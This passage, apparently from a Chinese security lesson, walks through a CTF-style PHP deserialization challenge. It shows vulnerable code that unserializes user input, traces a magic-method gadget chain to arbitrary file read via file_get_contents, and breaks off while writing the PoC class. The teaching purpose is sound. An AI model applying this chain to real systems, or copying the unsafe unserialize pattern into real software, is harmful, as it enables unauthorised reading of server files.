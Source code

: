 &nbsp; &nbsp; <span class="hljs-keyword">public</span> <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">get</span>(<span class="hljs-params">$key</span>)</span>{
&nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">if</span>(<span class="hljs-keyword">isset</span>(<span class="hljs-keyword">$this</span>-&gt;params[$key])){
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; $value = <span class="hljs-keyword">$this</span>-&gt;params[$key];
&nbsp; &nbsp; &nbsp; &nbsp; } <span class="hljs-keyword">else</span> {
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; $value = <span class="hljs-string">"index.php"</span>;
&nbsp; &nbsp; &nbsp; &nbsp; }
&nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">return</span> <span class="hljs-keyword">$this</span>-&gt;file_get($value);
&nbsp; &nbsp; }
&nbsp; &nbsp; <span class="hljs-keyword">public</span> <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">file_get</span>(<span class="hljs-params">$value</span>)</span>{
&nbsp; &nbsp; &nbsp; &nbsp; $text = base64_encode(file_get_contents($value));
&nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">return</span> $text;
&nbsp; &nbsp; }
}
show_source(<span class="hljs-keyword">__FILE__</span>);
$name=unserialize($_GET[<span class="hljs-string">'strs'</span>]);
<span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="29338">按照前面介绍的利用思路，一步步来套用上。</p>
<p data-nodeid="29339"><strong data-nodeid="29527">1. 寻找原程序中可利用的目标方法，比如包含 system、eval、exec 等危险函数的地方。</strong></p>
<p data-nodeid="29340">在题目中，没有找到上面用于执行代码或命令的函数，但是在 Test::file_get() 调用 file_get_contents 读取文件内容，如果能够利用它实现任意文件读取也是可取的，因此就以 Test 类方法 file_get 为目标方法；</p>
<p data-nodeid="29341"><strong data-nodeid="29542">2. 追踪调用第 1 步中方法的其他类方法/函数。</strong></p>
<p data-nodeid="29342">看哪里调用 Test::file_get()，可以看到是 Test::get()，再往上追踪，发现是在 Test::__get() 调用的，这个 __get() 魔术方法的触发条件是：读取不可访问属性值，包括私有或未定义属性。在 Show::__toString() 中就有对未定义属性 $content 的操作，这样就会触发 __get() 方法。再往上追溯，发现 Output::__destruct() 中调用到 echo 函数可触发 __toString() ，这样就得到整个调用链如下：</p>
<p data-nodeid="29343"><img src="https://s0.lgstatic.com/i/image/M00/8F/EC/CgqCHmAJUuyAZXQKAAB855K4LBk536.png" alt="Lark20210121-180537.png" data-nodeid="29566"></p>
<div data-nodeid="29344"><p style="text-align:center">图 2  调用链</p></div>
<p data-nodeid="29345"><strong data-nodeid="29572">3. 寻找可控制第 1 步方法的参数的其他类方法函数。</strong></p>
<p data-nodeid="29346">这里需要控制的是 file_get_contents($value) 中的参数 $value，依次往上追溯，发现其来自数组中的一个元素值，得到如下传播路径：</p>
<p data-nodeid="29347"><img src="https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUvSAaqlFAAB9jR92PEM612.png" alt="Lark20210121-180540.png" data-nodeid="29580"></p>
<div data-nodeid="29348"><p style="text-align:center">图 3  参数传播路径</p></div>
<p data-nodeid="29349">为了对应 Show::__toString() 中的 $this-&gt;str['str']-&gt;source ，我们可以通过array('source'=&gt;'可控内容') 来控制 $value，即打算读取的文件路径。进一步优化下传播路径：</p>
<p data-nodeid="29350"><img src="https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUvuASTMYAAB-HQ644z0682.png" alt="Lark20210121-180543.png" data-nodeid="29601"></p>
<div data-nodeid="29351"><p style="text-align:center">图 4  优化后的参数传播路径</p></div>
<p data-nodeid="29352"><strong data-nodeid="29607">4. 编写 poc，构建恶意类对象，然后调用 serialize 函数去生成序列化字符串。</strong></p>
<p data-nodeid="29353">根据图 2 的调用链可以知道，起始的调用类在 Output，因此我们需要反序列化它。</p>
<p data-nodeid="29354">基于前面的分析，PoC 代码如下：</p>
<pre class="lang-php" data-nodeid="29355"><code data-language="php"><span class="hljs-meta">&lt;?php</span>
  <span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">Output</span></span>{
  &nbsp; <span class="hljs-keyword">public</span> $test;
  &nbsp; <span class="hljs-keyword">public</span> $str;
  &nbsp; <span class="hljs-keyword">public</span> <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__construct</span>(<span class="hljs-params">$name</span>)</span>{
  &nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">$this</span>-&gt;str = $name;
  &nbsp; &nbsp; }
  &nbsp; &nbsp; <span class="hljs-keyword">public</span> <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__destruct</span>(<span class="hljs-params"></span>)</span>{